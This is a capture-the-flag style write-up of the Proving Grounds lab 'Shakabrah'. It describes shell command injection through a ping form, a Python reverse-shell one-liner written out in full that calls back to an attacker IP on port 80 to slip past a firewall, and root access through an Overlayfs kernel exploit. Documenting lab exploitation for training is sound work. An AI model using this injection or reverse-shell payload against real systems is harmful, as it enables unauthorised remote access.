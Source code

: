 * * *
 ### LAB: SHAKABRAH
 ### PLATFORM: PROVING GROUNDS
* * *

### Enumeration:
- Rustscan's details

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d4137a85-bd12-48cf-bdbe-8a90aefac3be)

- I did not fuzz for directories because the index page allows users to ping an ip address with the linux ping tool,I sensed that it
might be using the php `system() method`,we can use it to our advantage by closing the ping statement with a semicolon and executing a rev shell e.g `;ls`.In summary,the page is vulnerable to shell command injection

 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3eed71ac-bfa3-46e0-9237-d02570cd72a9)

- Popping a rev shell was bit tough because the server filters connectionn on other ports,I had to pop a shell through via port 80 to bypass the firewall restriction
 `;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.214",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`

- Now we have stabilizd rev shell

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/81c2962b-0f7a-4659-b513-264aa01e7c1e)

 ### PRIVESC

 -  I was able to escalate privileges with the Overlayfs kernel exploit because of the vulnerable Ubuntu version

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/05756031-0299-44c7-b6b0-09d64ce4cc95)

- Root access
  
